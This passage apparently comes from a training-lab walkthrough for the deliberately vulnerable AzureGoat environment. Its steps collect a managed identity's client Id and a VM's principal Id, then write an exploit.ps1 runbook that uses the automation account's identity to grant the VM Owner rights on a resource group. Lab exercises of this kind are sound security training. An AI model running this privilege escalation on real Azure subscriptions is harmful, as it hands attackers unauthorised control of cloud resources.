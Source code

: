 **Step 6:** Copy the Client Id of dev-automation-account.

![](images/4_defending_privilege_escalations/21.png)

Copy the principal Id of the VM.

![](images/4_defending_privilege_escalations/22.png)

**Step 7:** Let's create an *exploit.ps1* file.
```
nano exploit.ps1
```

![](images/4_defending_privilege_escalations/20.png)

Paste the given script inside the exploit.ps1 file.
```
workflow Get-AzureVM
{
    Disable-AzContextAutosave -Scope Process
    $AzureContext = (Connect-Azaccount -Identity -AccountId <Client Id of dev-automation-account>).context
    $AzureContext = Set-AzContext -SubscriptionName $AzureContext.Subscription -DefaultProfile $AzureContext
    New-AzRoleAssignment -RoleDefinitionName "Owner" -ObjectId <Principal Id of VM> -resourceGroupName azuregoat_app
}
```
